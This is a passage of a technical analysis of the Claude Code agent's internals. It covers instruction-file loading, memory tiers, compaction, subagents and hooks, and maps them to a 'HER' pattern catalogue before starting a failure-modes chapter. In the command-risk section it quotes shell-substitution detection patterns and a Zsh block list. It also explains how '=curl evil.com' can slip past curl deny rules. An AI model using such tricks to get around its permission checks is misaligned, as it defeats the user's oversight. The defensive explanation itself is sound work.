// src/Tool.ts:L15-L21 — Tool input schema type
export type ToolInputJSONSchema = {
  [x: string]: unknown
  type: 'object'
  properties?: {
    [x: string]: unknown
  }
}
```

Every tool must provide a `ToolInputJSONSchema` alongside a Zod schema, a `call()` method, a prompt function, and optional UI rendering. The `buildTool` helper enforces this contract at tool registration time, making it impossible to register a tool that omits any required field.

## Control flow

### Pattern 1: Persistent Instruction File

CLAUDE.md files are auto-loaded at session start in a priority cascade. The loading order is documented in the file header:

```typescript
// src/utils/claudemd.ts:L1-L9 — Loading order comment
// Files are loaded in the following order:
//
// 1. Managed memory (eg. /etc/claude-code/CLAUDE.md) - Global instructions for all users
// 2. User memory (~/.claude/CLAUDE.md) - Private global instructions for all projects
// 3. Project memory (CLAUDE.md, .claude/CLAUDE.md, and .claude/rules/*.md in project roots)
// 4. Local memory (CLAUDE.local.md in project roots) - Private project-specific instructions
```

Files are loaded in reverse order of priority: the latest-loaded file has the highest priority because it appears last in the system prompt, receiving more model attention. The `@include` directive allows CLAUDE.md to reference other files via `@path`, `@./relative/path`, `@~/home/path`, or `@/absolute/path` syntax. Circular references are prevented by tracking processed files, and non-existent targets are silently ignored. The glob pattern `.claude/rules/*.md` is scanned at each directory level during upward traversal, providing a natural mechanism for teams to organize instructions by topic rather than concatenating everything into a single monolithic file.

The managed memory layer at path `/etc/claude-code/CLAUDE.md` is enterprise-specific: it allows system administrators to inject organization-wide instructions (compliance policies, approved tool lists, coding standards) that every user session inherits. Because this layer is loaded first and therefore has the lowest priority, it serves as a set of defaults rather than mandates -- project-level and user-level files can override it. The `CLAUDE.local.md` variant is excluded from version control (typically added to `.gitignore`), giving individual developers a private surface for personal instructions without polluting the shared project configuration.

### Pattern 2: Scoped Context Assembly

The loading order above is itself the scoped context assembly mechanism. cc discovers CLAUDE.md files by traversing from the current directory upward to the root, with files closer to the working directory loaded later (higher priority). This creates a natural scope: org-level defaults are overridden by user preferences, which are overridden by project conventions, which are overridden by directory-specific rules. The traversal happens at query time, not at session start, so changing directories within a session automatically re-discovers a different instruction set.

The `getAdditionalDirectoriesForClaudeMd` function (imported at `src/utils/claudemd.ts:L47`) allows the settings system to inject extra directories into the discovery path, enabling enterprise deployments to add organization-wide instruction roots without modifying the filesystem. This function is called during the CLAUDE.md discovery pass at `src/utils/claudemd.ts`, and the injected directories participate in the same priority cascade as filesystem-discovered files -- they are loaded according to their position in the injection order, not given special precedence. The practical effect is that an enterprise can mandate a base set of instructions by injecting a root directory, while still allowing project-level CLAUDE.md files to override specific directives.

### Pattern 3: Tiered Memory

The memdir system implements a three-tier memory architecture. `MEMORY.md` (capped at 200 lines / 25KB) is always in context as Tier 1. Individual memory files are loaded on demand via a relevance-ranking side query as Tier 2. Full session transcripts live on disk as Tier 3, never loaded into context but available for the consolidation system to grep.

The relevance retrieval function is the bridge between Tier 1 and Tier 2:

```typescript
// src/memdir/findRelevantMemories.ts:L39-L45 — Relevance retrieval entry point
export async function findRelevantMemories(
  query: string,
  memoryDir: string,
  signal: AbortSignal,
  recentTools: readonly string[] = [],
  alreadySurfaced: ReadonlySet<string> = new Set(),
): Promise<RelevantMemory[]>
```

The function scans memory file headers, sends them to a lightweight Sonnet side query that selects up to 5 relevant files, and returns their paths. The `alreadySurfaced` parameter prevents re-selecting memories already shown in prior turns, ensuring the 5-slot budget targets fresh candidates. The `recentTools` parameter filters out reference documentation for tools the model is already actively using -- a practical optimization that prevents the selector from surfacing API docs for a tool whose output is already in the conversation.

The side-query system prompt at `src/memdir/findRelevantMemories.ts:L18-L24` is deliberately conservative, instructing the selector to only include memories it is certain will be helpful. This bias toward precision over recall is intentional: surfacing an irrelevant memory wastes context tokens and can mislead the model, while failing to surface a relevant one is recoverable (the model can re-query).

The memory type system also includes a drift caveat. The `MEMORY_DRIFT_CAVEAT` constant at `src/memdir/memoryTypes.ts:L201-L202` reminds the model that recalled memories may be stale and must be verified against current state before acting on them. The `TRUSTING_RECALL_SECTION` at `src/memdir/memoryTypes.ts:L240-L256` adds a dedicated section instructing the model to check that files, functions, and flags named in memories still exist before recommending them -- an eval-validated improvement that went from 0/3 to 3/3 on verification tasks when given its own section header.

### Pattern 4: Dream Consolidation

The `autoDream` system fires a background consolidation loop when three gates pass in order: time (24 hours since last consolidation), session count (5 new sessions), and lock (no concurrent consolidation). The gate logic is closure-scoped for test isolation:

```typescript
// src/services/autoDream/autoDream.ts:L122-L141 — Gate evaluation
export function initAutoDream(): void {
  let lastSessionScanAt = 0

  runner = async function runAutoDream(context, appendSystemMessage) {
    const cfg = getConfig()
    const force = isForced()
    if (!force && !isGateOpen()) return

    // --- Time gate ---
    let lastAt: number
    try {
      lastAt = await readLastConsolidatedAt()
    } catch (e: unknown) {
      logForDebugging(
        `[autoDream] readLastConsolidatedAt failed: ${(e as Error).message}`,
      )
      return
    }
    const hoursSince = (Date.now() - lastAt) / 3_600_000
    if (!force && hoursSince < cfg.minHours) return
```

The gate order is cheapest-first: reading the lock file mtime (`readLastConsolidatedAt`) is a single `stat` call, while listing session transcripts requires directory scanning. The scan throttle at `src/services/autoDream/autoDream.ts:L56` (`SESSION_SCAN_INTERVAL_MS = 10 * 60 * 1000`) prevents the time gate from re-triggering every turn once it has passed but the session gate has not -- without it, every subsequent turn would re-scan the session directory.

When all gates pass, a forked subagent runs the consolidation prompt with read-only Bash constraints. The prompt at `src/services/autoDream/consolidationPrompt.ts` defines six phases: Orient (list existing memories), Gather (scan daily logs and drifted memories), Consolidate (merge, deduplicate, update), Prune (delete stale memories), Reindex (rewrite `MEMORY.md`), and Verify (spot-check the index). The forked agent's file edits (to memory files) are tracked via `DreamTask`, and an inline completion message appears in the main transcript.

The lock mechanism at `src/services/autoDream/consolidationLock.ts:L29-L36` uses the lock file's mtime as `lastConsolidatedAt` -- a design that avoids a separate state file. The lock body contains the holder's PID, and a stale threshold of one hour at `src/services/autoDream/consolidationLock.ts:L19` guards against PID reuse. If the holder process dies, the next process reclaims the lock by overwriting it.

### Pattern 5: Progressive Context Compaction

cc implements five compaction stages of escalating severity, each triggered by different token-pressure thresholds. The compactable tool set (defined in Chapter 28's microcompact analysis at `src/services/compact/microCompact.ts:L41-L50`) enumerates the tools eligible for compaction: FileRead, all shell tools, Grep, Glob, WebSearch, WebFetch, FileEdit, and FileWrite.

The five stages are: (1) `history_snip` markers that delimit old tool results for pruning -- these are semantic boundaries the model respects, not actual data deletion; (2) Microcompact that trims tool results without invoking the model, replacing old tool output with `[Old tool result content cleared]` (the constant at `src/services/compact/microCompact.ts:L36`); (3) Context Collapse that aggressively summarizes the full conversation via a model call; (4) Autocompact that fires automatically when context approaches capacity, triggered from the query loop's token budget checks; and (5) Hard reset, the fallback that force-clears the context when all other compaction strategies fail to reduce token pressure below the critical threshold (see Chapter 28 for the definitive treatment of this five-stage hierarchy).

Notably, `NotebookEdit` does not appear in `COMPACTABLE_TOOLS`. Notebook cell outputs contain structured data that the model references by cell index; microcompact truncation would corrupt these references. This is a deliberate design choice: tools with high information density are excluded from the cheapest compaction layer, becoming targets only for the more expensive model-based compaction stages.

The observation masking technique (summarizing old tool results) achieves significant cost reduction but risks losing details the model needs for later reasoning. The `history_snip` boundaries mark where compaction occurred, but the model has no mechanism to request the original content.

### Pattern 6: Explore-Plan-Act Loop

Plan mode implements a five-phase model with escalating permissions. The parallel exploration agent count varies by subscription tier:

```typescript
// src/utils/planModeV2.ts:L31-L43 — Agent count by tier
export function getPlanModeV2ExploreAgentCount(): number {
  if (process.env.CLAUDE_CODE_PLAN_V2_EXPLORE_AGENT_COUNT) {
    const count = parseInt(
      process.env.CLAUDE_CODE_PLAN_V2_EXPLORE_AGENT_COUNT,
      10,
    )
    if (!isNaN(count) && count > 0 && count <= 10) {
      return count
    }
  }

  return 3
}
```

The five phases are: Interview (structured requirements gathering), Exploration (parallel read-only agents), Planning (synthesis of findings into a plan document), Review (plan approval gate), and Execution (full write access). The interview phase at `src/utils/planModeV2.ts:L50-L62` is gated by the `tengu_plan_mode_interview_phase` GrowthBook feature flag, with an environment variable override. The `getPlanModeV2AgentCount` function at `src/utils/planModeV2.ts:L5-L29` returns 3 for enterprise/team subscriptions and 1 for individual plans, controlling how many parallel exploration agents the plan phase spawns.

```mermaid
flowchart TD
    A[User query enters queryLoop] --> B{Pattern 1: Load CLAUDE.md}
    B --> C{Pattern 3: Load MEMORY.md index}
    C --> D{Pattern 3: findRelevantMemories side query}
    D --> E{Pattern 9: Assemble initial tool pool ~20 tools}
    E --> F{Pattern 2: Scoped context assembly}
    F --> G[Model streams response]
    G --> H{Tool use requested?}
    H -->|Yes| I{Pattern 10: Classify command risk}
    I --> J{Pattern 12: PreToolUse hooks}
    J --> K{Pattern 11: Dispatch to single-purpose tool}
    K --> L{Pattern 12: PostToolUse hooks}
    L --> M{Pattern 5: Check token budget}
    M -->|Under threshold| G
    M -->|Over threshold| N{Pattern 5: Compaction needed?}
    N -->|Yes| O[Run compaction hierarchy]
    N -->|No| G
    H -->|No| P{Pattern 4: AutoDream gate?}
    P -->|Passes| Q[Fork consolidation agent]
    P -->|Blocked| R[Return to loop]
```

### Pattern 7: Context-Isolated Subagents

The AgentTool spawns subagents with isolated context windows. Research agents (`subagent_type: "Explore"`) cannot edit files. The input schema controls isolation parameters:

```typescript
// src/tools/AgentTool/AgentTool.tsx:L82-L88 — Base input schema
const baseInputSchema = lazySchema(() => z.object({
  description: z.string().describe('A short (3-5 word) description of the task'),
  prompt: z.string().describe('The task for the agent to perform'),
  subagent_type: z.string().optional().describe('The type of specialized agent to use for this task'),
  model: z.enum(['sonnet', 'opus', 'haiku']).optional().describe("Optional model override for this agent. Takes precedence over the agent definition's model frontmatter. If omitted, uses the agent definition's model, or inherits from the parent."),
  run_in_background: z.boolean().optional().describe('Set to true to run this agent in the background. You will be notified when it completes.').describe('Set to true to run this agent in the background. You will be notified when it completes.')
  // Note: the doubled .describe() is present in the source code — the second call
  // overrides the first with the same string, making it a no-op. This is likely a
  // copy-paste artifact rather than intentional behavior.
}));
```

The full schema at `src/tools/AgentTool/AgentTool.tsx:L91-L102` extends the base with multi-agent parameters (name, team_name, mode) and an `isolation` field that accepts `"worktree"` or (for internal builds) `"remote"`. When `isolation: "worktree"` is specified, the tool creates a temporary git worktree via `createAgentWorktree` so the subagent operates on an isolated copy of the repository. The `cwd` parameter is mutually exclusive with `isolation: "worktree"` because worktree isolation already implies a different working directory.

### Pattern 8: Fork-Join Parallelism

The fork-subagent path enables parallel agent execution with context sharing. When enabled, omitting `subagent_type` triggers an implicit fork where the child inherits the parent's full conversation context:

```typescript
// src/tools/AgentTool/forkSubagent.ts:L32-L39 — Fork gate
export function isForkSubagentEnabled(): boolean {
  if (feature('FORK_SUBAGENT')) {
    if (isCoordinatorMode()) return false
    if (getIsNonInteractiveSession()) return false
    return true
  }
  return false
}
```

The fork path threads the parent's rendered system prompt bytes directly to the child via `toolUseContext.renderedSystemPrompt`, avoiding prompt-cache busting from GrowthBook state changes between render time and fork time. The `FORK_AGENT` definition at `src/tools/AgentTool/forkSubagent.ts:L60-L71` uses `tools: ['*']` with `useExactTools` so the fork child receives the parent's exact tool pool, and `permissionMode: 'bubble'` so permission prompts surface to the parent terminal. The `model: 'inherit'` setting keeps the parent's model for context length parity. This byte-threading approach is a deliberate architectural choice: reconstructing the system prompt by re-calling `getSystemPrompt()` can diverge (GrowthBook cold-to-warm transitions) and bust the prompt cache.

The fork recursion guard at `src/tools/AgentTool/forkSubagent.ts:L78-L85` prevents infinite recursive agent spawning by detecting the `FORK_BOILERPLATE_TAG` in the child's conversation history. This dual-guard mechanism (message-scan guard plus `querySource` guard) ensures that fork children cannot themselves fork, even after autocompact strips older messages.

### Pattern 9: Progressive Tool Expansion

cc does not load all 60+ tools into every prompt. Instead, a core set of approximately 20 tools is included initially, and additional tools are exposed via `ToolSearchTool` on demand:

```typescript
// src/tools/ToolSearchTool/ToolSearchTool.ts:L21-L34 — ToolSearch input schema
export const inputSchema = lazySchema(() =>
  z.object({
    query: z
      .string()
      .describe(
        'Query to find deferred tools. Use "select:<tool_name>" for direct selection, or keywords to search.',
      ),
    max_results: z
      .number()
      .optional()
      .default(5)
      .describe('Maximum number of results to return (default: 5)'),
  }),
)
```

Deferred tools (MCP tools, less-common tools) are listed in a compact catalog within the system prompt. When the model calls `ToolSearch`, the matching tool's full schema and prompt are loaded for the first time. The keyword search uses a scoring system that weights exact name matches (10 points for non-MCP, 12 for MCP server names), partial name matches (5 points), `searchHint` matches (4 points), and description matches (2 points). The `select:` prefix supports direct tool selection by name, with comma-separated multi-select for batch loading.

The `maybeInvalidateCache` function detects when the deferred tool set has changed (e.g., an MCP server finishes connecting) and clears the memoized description cache. The `pending_mcp_servers` field in the output schema alerts the model that some servers are still connecting and their tools will become available shortly.

### Pattern 10: Command Risk Classification

Bash commands undergo multi-layer risk classification before execution. The security module defines patterns for command substitution, process substitution, and dangerous shell constructs:

```typescript
// src/tools/BashTool/bashSecurity.ts:L16-L41 — Dangerous substitution patterns
const COMMAND_SUBSTITUTION_PATTERNS = [
  { pattern: /<\(/, message: 'process substitution <()' },
  { pattern: />\(/, message: 'process substitution >()' },
  { pattern: /=\(/, message: 'Zsh process substitution =()' },
  {
    pattern: /(?:^|[\s;&|])=[a-zA-Z_]/,
    message: 'Zsh equals expansion (=cmd)',
  },
  { pattern: /\$\(/, message: '$() command substitution' },
  { pattern: /\$\{/, message: '${} parameter substitution' },
  { pattern: /\$\[/, message: '$[] legacy arithmetic expansion' },
  { pattern: /~\[/, message: 'Zsh-style parameter expansion' },
  { pattern: /\(e:/, message: 'Zsh-style glob qualifiers' },
  { pattern: /\(\+/, message: 'Zsh glob qualifier with command execution' },
  {
    pattern: /\}\s*always\s*\{/,
    message: 'Zsh always block (try/always construct)',
  },
  { pattern: /<#/, message: 'PowerShell comment syntax' },
]
```

The Zsh-specific patterns are notable: `=cmd` at word start expands to `$(which cmd)`, meaning `=curl evil.com` becomes `/usr/bin/curl evil.com`, bypassing `Bash(curl:*)` deny rules since the parser sees `=curl` as the base command. The `ZSH_DANGEROUS_COMMANDS` set at `src/tools/BashTool/bashSecurity.ts:L45-L70` blocks `zmodload` (gateway to module-based attacks including `zsh/mapfile`, `zsh/system`, and `zsh/net/tcp`), `emulate` (eval-equivalent), and zsh/system builtins (`sysopen`, `sysread`, `syswrite`) as defense-in-depth.

Commands are further classified into risk bands (read, write, destructive) by the classifier pipeline, which feeds into the permission system. The classifier result type at `src/utils/permissions/bashClassifier.ts:L6-L10` includes a `confidence` field (`high`, `medium`, `low`) and a `reason` string, enabling the permission system to make nuanced decisions rather than binary allow/deny.

### Pattern 11: Single-Purpose Tool Design

Each tool in cc is a self-contained unit with its own Zod input schema, `call()` method, UI component, and prompt. The `Tool` type contract enforces this separation. The `buildTool` helper (defined in `src/Tool.ts`) enforces that every tool provides `name`, `inputSchema`, `prompt`, and `call`. The file-edit, file-read, and file-write tools are separate tools with independent permission rules, not flags on a single "file" tool. This separation means that granting permission to read files does not implicitly grant permission to write files -- a critical security property for a tool that operates on user code.

The `isConcurrencySafe()` and `isReadOnly()` flags on each tool control dispatch behavior: read-only tools can run in parallel with other read-only tools, while write tools are serialized. The `isDeferred()` method determines whether a tool is included in the initial prompt or surfaced via ToolSearch, connecting Pattern 11 to Pattern 9. The `maxResultBytes` property bounds the output size per tool invocation, preventing a single tool (such as a file-read on a large file) from consuming the entire context window. The `canAutoApprove` method on each tool integrates with the permission system, returning whether the tool's operation can be silently approved under the current permission mode without prompting the user.

### Pattern 12: Deterministic Lifecycle Hooks

Hooks are the most extensible automation surface in cc. The hook schema defines events (`PreToolUse`, `PostToolUse`, `SessionStart`, etc.), matchers (tool-name patterns via the `if` condition field), and four hook types (command, prompt, HTTP, agent). The `if` condition field enables cheap pre-filtering:

```typescript
// src/schemas/hooks.ts:L19-L27 — If condition schema
const IfConditionSchema = lazySchema(() =>
  z
    .string()
    .optional()
    .describe(
      'Permission rule syntax to filter when this hook runs (e.g., "Bash(git *)"). ' +
        'Only runs if the tool call matches the pattern. Avoids spawning hooks for non-matching commands.',
    ),
)
```

The `once: true` flag supports one-shot hooks that auto-remove after execution. The `async` flag enables non-blocking hooks for fire-and-forget scenarios. The `asyncRewake` flag at `src/schemas/hooks.ts:L59-L64` extends `async` behavior by waking the model when the hook exits with code 2 (blocking error), providing a middle ground between fully blocking and fully async. The `statusMessage` field allows hooks to display custom spinner text while running, improving the user experience during long-running validations.

The hook execution system dispatches each hook type through a distinct pipeline: command hooks spawn a shell process, HTTP hooks POST JSON to a URL (with SSRF guards), prompt hooks invoke a model side-query, and agent hooks spawn a full subagent. The `timeout` field per-hook mitigates blocking, but there is no hook-level circuit breaker -- a repeated failing hook will keep firing until explicitly removed.

## Edge cases and failure modes

**Pattern 1 -- CLAUDE.md loading failures are silent.** If a CLAUDE.md file is malformed or the `@include` target does not exist, the file is silently ignored. This avoids crashing the session on a bad instruction file, but means misconfigured instructions provide no diagnostic signal. The only indication is the absence of the expected instructions from the assembled system prompt, which requires dumping the prompt to diagnose.

**Pattern 3 -- Memory relevance selection can miss.** The `findRelevantMemories` side query is capped at 5 results and uses a lightweight Sonnet model. Complex queries that need 6 or more memories or nuanced relevance judgment can surface the wrong set. The telemetry in `memoryShapeTelemetry` tracks selection rates (including empty selections with age = -1 to distinguish "ran, picked nothing" from "never ran"), but does not correct the selection.

**Pattern 3 -- Memory index overflow.** When the `MEMORY.md` index exceeds 200 lines or 25KB, `truncateEntrypointContent` silently drops content. The function appends a warning naming which cap fired, but the model has no way to know what was removed. A growing index that repeatedly hits the cap indicates the memory system is storing too much -- a signal that dream consolidation should run more aggressively.

**Pattern 3 -- Memory staleness is unchecked at recall time.** The `MEMORY_DRIFT_CAVEAT` constant warns the model to verify recalled memories against current state, but this is advisory, not enforced. The `memoryAge.ts` module tracks file mtime for freshness signals, and the staleness warning at `src/memdir/memoryTypes.ts:L201-L202` is appended to old memories, but nothing prevents the model from acting on a stale memory without verification. The `TRUSTING_RECALL_SECTION` at `src/memdir/memoryTypes.ts:L240-L256` provides structured guidance (check file existence, grep for functions, verify before acting), but the model may skip these steps under time pressure.

**Pattern 4 -- Dream consolidation lock contention.** The consolidation lock prevents concurrent dreams, but if the forked agent crashes without releasing the lock, subsequent dreams are blocked until the lock's mtime ages past the stale threshold (1 hour at `src/services/autoDream/consolidationLock.ts:L19`). The `rollbackConsolidationLock` call at `src/services/autoDream/consolidationLock.ts:L91-L108` handles most cases by rewinding the mtime so the time gate passes again, but hard kills (SIGKILL) can leave stale locks that block until the stale threshold expires.

**Pattern 5 -- Compaction can discard critical context.** The observation masking technique (summarizing old tool results) achieves significant cost reduction but risks losing details the model needs for later reasoning. The `history_snip` boundaries mark where compaction occurred, but the model has no mechanism to request the original content. A model that reasons about specific line numbers from a file-read result may hallucinate those numbers after microcompact replaces the result with a cleared message.

**Pattern 5 -- Microcompact does not run on all tools.** The `COMPACTABLE_TOOLS` set deliberately excludes `NotebookEdit` and other high-density tools. While this prevents data corruption (notebook cell references would break if truncated), it means that a conversation heavy with notebook edits accumulates context faster than one using only bash and grep. The exclusion list is static, not adaptive to session composition.

**Pattern 8 -- Fork-subagent cache coherence.** The fork path threads the parent's rendered system prompt to preserve prompt-cache hit rates. However, if GrowthBook feature flags change between the parent's render and the fork's execution, the child operates under stale feature-gate state for the duration of its run. This is an accepted tradeoff: re-rendering would guarantee freshness but would produce a cache miss on every fork, negating the cost savings.

**Pattern 8 -- Fork children can outlive their parent context.** A forked subagent running in the background continues executing even after the parent's conversation has moved on. If the parent's context is compacted while the child is running, the child's eventual result message may reference entities that no longer exist in the parent's working memory. The `FORK_BOILERPLATE_TAG` at `src/tools/AgentTool/forkSubagent.ts:L78-L85` includes context-constraining instructions to mitigate this, but the fundamental temporal mismatch remains.

**Pattern 9 -- ToolSearch discoverability gap.** The model must know to call `ToolSearch` for tools not in the initial set. If the model does not realize a deferred tool exists (e.g., a newly-added MCP tool whose name is unfamiliar), it will attempt to solve the problem without it. The compact catalog in the system prompt lists deferred tool names, but the model may not recognize that a catalog entry maps to its current need. The `pending_mcp_servers` field in ToolSearch output partially addresses this by alerting the model that new tools are still loading.

**Pattern 10 -- Classifier gaps in external builds.** The `bashClassifier.ts` in external builds is a stub that always returns `matches: false` and `confidence: 'high'` with `reason: 'This feature is disabled'`. This means classifier-based permissions (the `prompt:` prefix in permission rules) are Anthropic-internal only; external users rely on pattern matching and manual approval. The stub design is intentional -- `isClassifierPermissionsEnabled()` returns `false`, and all classifier queries return safe defaults rather than crashing or silently allowing.

**Pattern 12 -- Hook timeout and cascading failures.** A slow hook blocks the entire tool dispatch pipeline. The `timeout` field per-hook mitigates this, but the default timeout may be too long for interactive sessions, and there is no hook-level circuit breaker. A hook that consistently fails or times out will keep firing on every matching tool call until the user removes it from settings. The `once: true` flag is a partial mitigation for one-shot scenarios, but persistent hooks lack an automatic disable-on-repeated-failure mechanism.

## Where cc diverges from the published pattern

**Pattern 1 -- CLAUDE.md is not a single file.** The HER description implies one persistent instruction file. cc actually loads a cascade of up to four layers (managed, user, project, local) plus `.claude/rules/*.md` glob files and `@include` transitive references. The effective "instruction file" is an assembled composite, not a single document. This divergence is significant because it means instruction precedence is determined by load order, not by explicit priority annotations within the instructions themselves.

**Pattern 2 -- Scoped context assembly is not a separate mechanism.** The HER treats scoped context assembly as a distinct pattern, but in cc it is the same code path as Pattern 1. The CLAUDE.md loading order IS the scoped assembly. There is no separate scoping layer that operates on top of the instruction files. The two patterns share the same traversal logic, the same priority resolution, and the same system prompt injection point.

**Pattern 3 -- Memory recall is side-query-driven, not index-driven.** The HER description implies a tiered memory system where the compact index (Tier 1) directly informs which topic files to load (Tier 2). In practice, the `findRelevantMemories` function at `src/memdir/findRelevantMemories.ts:L39-L45` uses a Sonnet side query that scans memory file headers, not the `MEMORY.md` index itself. The index serves as a context-injection artifact (always in the prompt for the model to browse), but the retrieval decision is made by a separate LLM call with its own system prompt at `src/memdir/findRelevantMemories.ts:L18-L24`. This means the recall system has its own failure mode (side-query misjudgment) independent of index quality. A second divergence concerns the strictness of the three-tier model itself: cc's implementation adds parameters that the HER taxonomy does not capture. The `alreadySurfaced` parameter at `src/memdir/findRelevantMemories.ts:L45` prevents re-selection of memories already shown in prior turns, effectively introducing a fourth tier of "surfaced but still in context" that the three-tier model does not account for. The `recentTools` parameter filters out reference documentation for tools whose output is already in the conversation, which means the retrieval decision is context-dependent in a way the tiered model does not describe. The staleness warning system (`MEMORY_DRIFT_CAVEAT` and `TRUSTING_RECALL_SECTION`) adds a verification layer that the HER model treats as part of the tier structure but cc implements as an advisory appendage to recalled content, not as a structural tier boundary.

**Pattern 5 -- Compaction hierarchy has five stages, not four.** The HER description names four layers (HISTORY_SNIP, Microcompact, Context Collapse, Autocompact). cc actually implements a fifth stage: the cached microcompact path at `src/services/compact/microCompact.ts:L52-L60` uses the Anthropic API's cache-editing mechanism to remove tool results from the cached prompt prefix without invalidating the cache. This stage sits between microcompact and context collapse in cost, providing an intermediate option that preserves cache hits while freeing token space. The `Hard Reset` stage (requiring user intervention when all compaction fails) is sometimes counted as a sixth stage, but it is not an automatic compaction -- it is a failure mode. A further divergence is that the HER treats the four compaction layers as strictly sequential, each triggered by escalating token pressure. In cc, the cached microcompact path can be triggered independently of the normal escalation ladder -- it is available whenever the prompt prefix contains cacheable tool results, regardless of whether the token budget threshold for the next stage has been reached. The `COMPACTABLE_TOOLS` set also means that not all tool results are equally eligible for compaction: tools like `NotebookEdit` are excluded from microcompact entirely, creating a two-tier compaction eligibility that the HER model does not describe. A session heavy with notebook edits will accumulate context faster than one using only bash and grep, because the cheapest compaction layer cannot touch notebook output.

**Pattern 6 -- Plan mode has more than three phases.** The HER description names three phases (Explore, Plan, Act). cc's plan mode V2 has five phases: Interview, Exploration, Planning, Review, and Execution. The interview and review phases are additions not captured in the original pattern description. The Interview phase gathers structured requirements before exploration begins, reducing the risk of agents exploring the wrong problem. The Review phase forces explicit plan approval before execution, providing a human-in-the-loop checkpoint that the three-phase model lacks.

**Pattern 7 -- Subagents are not always context-isolated.** The fork path (`isForkSubagentEnabled`) creates a subagent that inherits the parent's full conversation context, contradicting the "context-isolated" label. Only typed subagents (with explicit `subagent_type`) receive a fresh context window. The fork path is designed for task delegation where the child needs full context about what the parent was doing, while typed subagents are designed for specialized roles (exploration, verification) where isolation prevents the child from being influenced by the parent's assumptions.

**Pattern 8 -- Fork-join does not always join.** The HER description implies a fork-join model where the parent waits for children to complete and merges results. cc's fork path supports both synchronous (parent blocks until child completes) and asynchronous (`run_in_background: true`) execution. Background forks return immediately with a task notification, and the parent learns of completion through the task system rather than a direct join. The `auto-background` mechanism at `src/tools/AgentTool/AgentTool.tsx:L87` automatically transitions a synchronous subagent to asynchronous after a 120-second timeout, meaning the "join" is not guaranteed even when the parent initially intends to wait. A second divergence is that cc's fork path is always single-child: the parent forks exactly one subagent and then continues executing. The HER pattern describes fork-join as a multi-agent fan-out where multiple children run in parallel and the parent collects all results. cc achieves multi-agent parallelism through the coordinator system (`coordinatorMode.ts`) rather than through the fork path itself. The fork path is more accurately described as task delegation with optional synchronization, not the structured parallelism the fork-join label implies.

**Pattern 9 -- Progressive expansion is not strictly lazy.** Some tools (MCP tools via deferred loading) are truly lazy, but the core set of approximately 20 tools is always present. The boundary between "always loaded" and "on demand" is not dynamically adjusted based on session context -- it is a static partition defined at tool registration time via the `isDeferred()` method. A session that only uses file tools still loads the Bash, Agent, and Web tools in the initial prompt.

**Pattern 10 -- Risk classification is multi-layer, not single-pass.** The HER description suggests a single classification step. cc actually chains multiple classifiers: syntactic pattern matching (the `COMMAND_SUBSTITUTION_PATTERNS` array), Zsh-specific dangerous command blocking (`ZSH_DANGEROUS_COMMANDS`), semantic risk-band classification (the classifier pipeline in `bashClassifier.ts`), and YOLO classifier evaluation. Each layer can override or supplement the previous one. The YOLO classifier uses a two-stage pipeline (fast stage + thinking stage) that only invokes the slower stage when the fast stage flags a potential block, reducing latency for clearly safe commands. A further divergence is that the "deterministic" guarantee the HER pattern describes is Anthropic-internal only. The `bashClassifier.ts` in external builds is a stub that returns `matches: false` and `confidence: 'high'` with `reason: 'This feature is disabled'`, as discussed in the Edge Cases section. This means classifier-based permissions (the `prompt:` prefix in permission rules) do not function for external users, who instead rely on pattern matching and manual approval. The stub design is intentional -- `isClassifierPermissionsEnabled()` at `src/utils/permissions/bashClassifier.ts:L24-L26` returns `false`, and all classifier queries return safe defaults rather than crashing or silently allowing. The divergence is architectural: the HER describes a deterministic pre-execution gate, but for the majority of deployments (all external builds), the gate is effectively absent.

**Pattern 11 -- Single-purpose tools share infrastructure.** While each tool has its own schema and `call()` method, the file tools share underlying infrastructure: `FileReadTool`, `FileEditTool`, and `FileWriteTool` all use the same file-history snapshot system, the same path-validation logic, and the same permission-check pipeline. The "single-purpose" label applies to the model-facing interface, not to the implementation.

**Pattern 12 -- Hooks are not purely deterministic.** The `prompt` and `agent` hook types invoke the model, making their behavior non-deterministic. Only `command` and `http` hooks are truly deterministic. The HER description does not distinguish these, but the distinction matters for reliability: a `prompt` hook that asks the model "is this code safe?" may give different answers on different runs, while a `command` hook that runs a linter produces identical output for identical input.

## Developer takeaways for building a long-running agent

The twelve patterns yield a coherent set of implementation lessons. Load instruction files in priority order so local context overrides global defaults, and cap memory indices aggressively (cc's 200-line / 25KB dual cap at `src/memdir/memdir.ts:L34-L38` is a hard-won number). Gate background consolidation with multiple conditions (AutoDream's time-session-lock triple at `src/services/autoDream/autoDream.ts:L122-L141` plus the scan throttle). Implement compaction as an escalating hierarchy rather than a single stage, excluding high-density tools from the cheapest layer. Thread rendered prompt bytes to subagents rather than re-rendering from parameters, to preserve cache coherence across GrowthBook transitions. Classify command risk before requesting permission using multi-layer pipelines, and give each tool its own permission boundary so that granting read access does not implicitly grant write access. Use lifecycle hooks as the extension surface rather than code modification, and design every platform-specific feature with a safe stub fallback for builds that strip it. Use lock-file mtime as a dual-purpose signal (consolidation timestamp and contention guard at `src/services/autoDream/consolidationLock.ts:L29-L36`). Make plan-mode phases configurable rather than hardcoded, and give memory recall its own dedicated verification section -- the eval-validated `TRUSTING_RECALL_SECTION` at `src/memdir/memoryTypes.ts:L240-L256` went from 0/3 to 3/3 on verification tasks when given its own section header.
# The 17 Failure Modes: How CC Defends (or Doesn't)

## Overview

The HER report identifies 17 failure modes that afflict long-running agents — from the well-known (context rot, infinite loops) to the newly discovered (checkpoint-restore side effects, data leakage between contexts). This chapter maps every one of those failure modes to cc's concrete defenses, names the source files and line numbers that implement them, and honestly flags where cc has no defense at all.

The 17 modes fall into three clusters by severity:

- **Context-management failures** (6.1, 6.5, 6.9): cc has the deepest defenses here — a five-stage compaction hierarchy, session persistence, and structured handoff protocols.
- **Safety-and-correctness failures** (6.6, 6.7, 6.11, 6.12, 6.13, 6.15, 6.16): cc has substantial defenses, but gaps remain, particularly around hallucinated tool calls and checkpoint-restore side effects.
- **Behavioral-and-goal failures** (6.2, 6.3, 6.4, 6.8, 6.10, 6.14, 6.17): cc relies more on prompt engineering and workflow constraints than on hard mechanisms; some modes have no structural defense.

The relationship between failure modes and cc's defenses is many-to-many: a single defense (like the compaction hierarchy) mitigates multiple failure modes, and a single failure mode (like infinite loops) requires multiple defenses working in concert.

```mermaid
erDiagram
    FAILURE_MODE ||--o{ DEFENSE : "mitigated by"
    DEFENSE ||--o{ SOURCE_FILE : "implemented in"
    FAILURE_MODE {
        string id
        string name
        string severity
    }
    DEFENSE {
        string mechanism
        string strength
    }
    SOURCE_FILE {
        string path
        int line
    }
```

## Data structures and contracts

The central data structure governing failure-mode defenses is the `TokenBudgetDecision` — a discriminated union that decides whether the query loop continues or stops based on token consumption:

